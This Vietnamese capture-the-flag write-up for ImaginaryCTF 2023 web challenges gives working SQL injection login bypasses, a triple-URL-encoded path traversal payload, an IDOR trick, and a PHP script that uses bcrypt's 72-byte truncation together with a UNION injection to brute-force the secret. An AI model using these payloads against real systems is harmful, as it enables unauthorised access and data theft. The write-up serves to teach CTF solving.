

# ImaginaryCtf 2023

## Blank

Bài này khi đọc source ta sẽ thấy nó sẽ truy xuất sqlite3 để đăng nhập và gán req.session.username = username

<figure><figcaption></figcaption></figure>

Và nếu như username là admin thì sẽ xem được flag

<figure><figcaption></figcaption></figure>

Đầu tiên ta sẽ xem trong dockerfile và thấy nó không có tiến hành thêm vào database cái gì hết nên ta thấy admin chắc cũng sẽ không có trong đó vậy ta sẽ tìm cách làm sao để bypass với username = admin & password = ...

Khi tiến hành debug code thì ta sẽ thấy các câu lệnh để bỏ qua đơn giản không hiệu quả và nếu muốn code chạy xuống đoạn gán session thì truy vấn sql phải thành công

Vậy nên ta sẽ bypass bằng cách sử dụng <mark style="color:red;">**sqlite\_master**</mark> vì  nó chứa thông tin của cơ sở dữ liệu nên có thể truy vấn được

Payload

```sql
username=admin&password=" UNION SELECT null, null, null FROM sqlite_master -- -
```

<figure><figcaption></figcaption></figure>

## **Idoriot**

Khi ta kiểm tra register thì ta sẽ thấy lúc ta đăng ký nó sẽ có 1 input user\_id được ẩn đi chỉ cần thay user\_id = 1 lúc đăng ký thì nó sẽ thành account của admin thôi

<figure><figcaption></figcaption></figure>

## roks

Bài này khi đọc code trong file.php thì ta sẽ thấy&#x20;

<figure><figcaption></figcaption></figure>

Nó sẽ tiến hành urldecode param file 1 lần ở $filename và 1 lần nữa ở $filePath mà trong câu điều kiện đầu tiên thì nó sẽ filter các ký tự là / và . để tránh lfi vậy nên ta sẽ sử urlencode 3 lần để lúc nó decode lần đầu thì vẫn chưa có 2 ký tự bị cấm nên chúng ta có thể bypass được điều kiện trên rồi

```
. => %25252E
/ => %25252F
```

Mà ta đọc trong dockerfile thì thấy flag.png được lưu ở / nên ta sẽ path traversal vô đó để xem thôi

Payload

```
%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252Fflag%25252Epng
```

<figure><figcaption></figcaption></figure>

## Perfect Picture

Bài này khá đơn giản chỉ là bypass các điều kiện để có 1 tấm ảnh hoàn hảo thôi

<figure><figcaption></figcaption></figure>

Tại vì nó đã mở sẵn cho mình flag.txt rồi nên khi gửi đúng điều kiện thì nó sẽ return cho mình flag các điều kiện như trên ta sẽ dùng code python để tạo ra 1 tấm ảnh phù hợp

```python
from PIL import Image

# Create an image with the required dimensions (690x420)
bypass_image = Image.new('RGBA', (690, 420), (255, 255, 255, 255))

# Set the required pixels to bypass the checks
bypass_image.putpixel((412, 309), (52, 146, 235, 123))
bypass_image.putpixel((12, 209), (42, 16, 125, 231))
bypass_image.putpixel((264, 143), (122, 136, 25, 213))

# Save the bypass image
bypass_image.save('bypass_image.png')

# Set metadata using ExifTool
import subprocess

metadata_commands = [
    'exiftool', '-PNG:Description=jctf{not_the_flag}',
    '-PNG:Title=kool_pic', '-PNG:Author=anon', 'bypass_image.png'
]

subprocess.run(metadata_commands)

print("Bypass image created and metadata set.")

```

Upload tấm ảnh đó lên là lấy được flag

<figure><figcaption></figcaption></figure>

## **idoriot-revenge**

<figure><figcaption></figcaption></figure>

Nếu bạn muốn lấy được flag, bạn cần tìm cách để giá trị của `$user_id` là số nguyên 0 và `$_SESSION['username']` phải khớp với mẫu được tạo từ `$admin['username']`.

Nếu mẫu là một biểu thức chính quy đơn giản như "/^admin$/i", điều kiện `preg_match("/".$admin['username']."/", $_SESSION['username'])` sẽ khớp nếu giá trị của `$_SESSION['username']` là "admin" (không phân biệt chữ hoa chữ thường). Vì vậy, bạn có thể đặt giá trị cho `$_SESSION['username']` là "admin" + "blalblabla" để lấy được flag.

<figure><figcaption></figcaption></figure>

## Login

Đầu tiên ta chạy thử sqlmap thì thấy username bị dính time based

<figure><figcaption></figcaption></figure>

Vậy dễ rồi ta chỉ cần thêm task table để tìm tên table

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Biết được table rồi ta sẽ tìm tiếp column

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Có 2 cột là pwhash và username vậy ta chạy tiếp sqlmap xem trong đó có gì tiếp thôi

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Ta có được username nhưng password đã bị hash rồi thử tìm thêm thông tin thì ta kiếm được source code như sau

<figure><figcaption></figcaption></figure>

Analyze hash thì ta thấy nó là bcrypt

<figure><figcaption></figcaption></figure>

Thử dùng tool crack thì ta chỉ crack được password của guest thau

<figure><figcaption></figcaption></figure>

Ở đây ta biết có 1 cách bypass đó là khi hash password bằng php thì nó sẽ sử dụng PASSWORD\_BCRYPT và nó có cách bypass là nếu 2 string có độ dài > 72 ký tự thì khi verify lại luôn đúng

Test code

```php
<?php
$plain = str_repeat("a", 72);
$challenge = str_repeat("a", 72) . "cc";

$hashed_password = password_hash($plain, PASSWORD_BCRYPT);
echo "Hashed Password: " . $hashed_password . PHP_EOL;

$is_verified = password_verify($challenge, $hashed_password);
echo "Is Verified: " . ($is_verified ? "true" : "false") . PHP_EOL;
?>
```

<figure><figcaption></figcaption></figure>

Ta sẽ sử dụng payload sau để brute force password thôi

ví dụ

<pre><code>username = admin' union select 'admin' , '{hash}' -- -
<strong>password = "a" * (71 - len(flag))
</strong>hash = "a" * (71 - len(flag) + flag
</code></pre>

Bây giờ viết code cho nó tự hash và request thôi nếu gặp welcome admin thì đó là 1 ký tự đúng

<figure><figcaption></figcaption></figure>

Ở đây nó GET 1 cái magic gì đó tìm không thấy nên ta thử dùng tk của guest sql vô admin thì ta được

username : `guest' UNION SELECT 'admin', '$2y$10$vw1OC907/WpJagql/LmHV.7zs8I3RE9N0BC4/Tx9I90epSI2wr3S.' AS pwhash --`

password: guest

<figure><figcaption></figcaption></figure>

Magic: 688a35c685a7a654abc80f8e123ad9f0

Sử url thành [http://login.chal.imaginaryctf.org/?688a35c685a7a654abc80f8e123ad9f0](http://login.chal.imaginaryctf.org/?688a35c685a7a654abc80f8e123ad9f0)

tiến hành viết code để exploit thôi

```php
<?php
$url = "http://login.chal.imaginaryctf.org/?688a35c685a7a654abc80f8e123ad9f0";

// Mảng lưu trữ các ký tự đã tìm thấy trong flag, ban đầu là các ký tự đã biết "ictf"
$secret = ["i", "c", "t", "f"];

while (true) {
    // Độ dài của ký tự cần brute force, giả sử flag có độ dài là 71 ký tự
    $length = 71 - count($secret);

    // Ký tự "overflow" là ký tự filler (tràn), có thể là bất kỳ ký tự nào
    $overflow = str_repeat("A", $length);

    // Duyệt qua các ký tự in được (loại bỏ 6 ký tự cuối)
    foreach (str_split("{0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!\"#$%&'()*+,-./:;<=>?@[\\]^_`{|}~") as $c) {
        $guess = $overflow . implode("", $secret) . $c;

        // Hash password bằng hàm password_hash()
        $hashed_password = password_hash($guess, PASSWORD_BCRYPT);

        // Tạo một mảng dữ liệu để gửi đi trong yêu cầu POST
        $data = array(
            'username' => "xxx' UNION SELECT 'admin' AS username, '$hashed_password' AS pwhash--",
            'password' => $overflow
        );

        // Thiết lập các tùy chọn yêu cầu
        $options = array(
            'http' => array(
                'header' => "Content-type: application/x-www-form-urlencoded\r\n",
                'method' => 'POST',
                'content' => http_build_query($data),
            ),
        );

        // Tạo context stream
        $context = stream_context_create($options);

        // Thực hiện yêu cầu POST và lưu kết quả vào biến $response
        $response = file_get_contents($url, false, $context);

        // Kiểm tra xem trong response có chuỗi "Welcome admin" hay không
        if (strpos($response, 'Welcome admin') !== false) {
            // Nếu tìm thấy, thêm ký tự $c vào mảng $secret và tiếp tục vòng lặp
            $secret[] = $c;
            echo "[!] found! " . implode("", $secret) . PHP_EOL;
            break;
        } else {
            echo "trying $c..." . PHP_EOL;
        }

        // Nghỉ 1 giây để tránh bị chặn
        sleep(1);
    }
}
?>

```

flag:&#x20;

```txt
ictf{why_are_bcrypt_truncating_my_passwords?!}
```
